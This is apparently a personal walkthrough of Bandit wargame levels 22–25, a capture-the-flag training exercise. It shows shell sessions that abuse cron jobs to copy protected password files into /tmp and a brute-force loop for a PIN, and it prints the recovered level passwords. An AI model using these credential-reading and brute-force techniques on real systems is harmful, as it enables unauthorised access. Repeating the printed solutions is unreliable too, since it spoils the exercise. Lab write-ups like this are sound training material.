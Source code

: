 bandit21@bandit:/tmp/tmp.1CV2u5cQQd$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

22 -> 23

bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null

bandit22@bandit:/usr/bin$ cat cronjob_bandit23.sh

'''
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
cat /etc/bandit_pass/$myname > /tmp/$mytarget
'''

make copy of file and change myname to bandit23 to find out the name of the tmp file that is storing the password file:

```
#!/bin/bash
myname='bandit23'
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo $mytarget
```

bandit22@bandit:/tmp/tmp.8hA90VK4xg$ ./copy.sh
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/tmp/tmp.8hA90VK4xg$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

23 -> 24


cronjob runs and deletes files every minute in /var/spool/bandit24/foo so we have to leave a shell script that will read the bandit24 password, output it to a file that we can read. Essentially this method allows us to read /etc/bandit_pass/bandit24 as bandit 23.

```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.05RdosA5B0

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

24 -> 25

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

brute force script
```
#!/bin/bash

password="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for i in {1..9999} 
do
   echo "$password $i"
done
```
